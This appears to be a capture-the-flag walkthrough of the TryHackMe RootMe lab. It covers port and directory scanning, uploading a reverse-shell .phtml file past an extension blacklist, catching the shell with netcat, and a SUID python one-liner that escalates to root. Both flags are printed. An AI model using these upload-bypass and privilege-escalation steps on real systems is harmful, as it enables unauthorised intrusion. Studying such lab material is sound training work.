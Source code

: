 ### RootMe

export IP: 10.10.43.146


Scan the machine, how many ports are open?

- port 44442 is not included since status is filtered

```
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.43.146 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-18 08:27 EDT
Nmap scan report for 10.10.43.146
Host is up (0.66s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp    open     http            Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
44442/tcp filtered coldfusion-auth
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.26 seconds
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]

```

What version of Apache is running?
- 2.4.29


What service is running on port 22?
- ssh


What is the hidden directory?
- /panel/

```


┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ gobuster dir -u "http://10.10.43.146:80" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/RootMe/gobuster_scan.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.43.146:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/18 08:31:57 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.43.146/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.43.146/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.43.146/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.43.146/panel/]  
Progress: 5864 / 220561 (2.66%)                                                  ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/08/18 08:39:06 Finished
===============================================================
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ 

```


Find a form to upload and get a reverse shell, and find the flag.


![[Pasted image 20220818090736.png]]

- created reverse_shell.phtml, since php is blacklisted and we also cannot bypass client side filter:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ ls
gobuster_scan.txt  nmap_results.txt  README.md  reverse_shell.jpg  reverse_shell.php  reverse_shell.phtml
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/RootMe]
└─$ 

```

After uploading the payload, go to http://ip:80/uploads/reverse_shell.phtml to obtain a shell on nc listener:

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234                                  
listening on [any] 1234 ...
connect to [10.4.73.167] from (UNKNOWN) [10.10.43.146] 35740
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:07:17 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

- Once you got a shell, try to stabilize it first:

```

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ fg
www-data@rootme:/$ stty raw -echo
stty raw -echo
www-data@rootme:/$ fg
bash: fg: current: no such job
www-data@rootme:/$ export TERM=xterm
www-data@rootme:/$
```

- Then search for the file user.txt below:

```
www-data@rootme:/$ find / -type f -name user.txt
/var/www/user.txt

```

- user.txt is located at /var/www/
- try to cat /var/www/user.txt to get the first flag:

```
www-data@rootme:/$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
www-data@rootme:/$ ^C
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 


```

Find a form to escalate your privileges.

- Using the lectures from beginner path, SUID part, we can check for SUID 


Tried using shell on GTFObins, but to no luck:

```
python -c 'import os; os.system("/bin/sh")'
-data@rootme:/$ python -c 'import os; os.system("/bin/sh")'
$ whoami
www-data

```

- After multiple trial and error, i found the exploit for this machine:
  
  ![[Pasted image 20220818094330.png]]
Note: disregard the sudo (as we don't have privileges); command 1
then remove the ./ in the first part.

Result:

```
$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
/bin/sh: 8: ./python: not found
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'    
# whoami
root
# 

```



```
# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
# 


```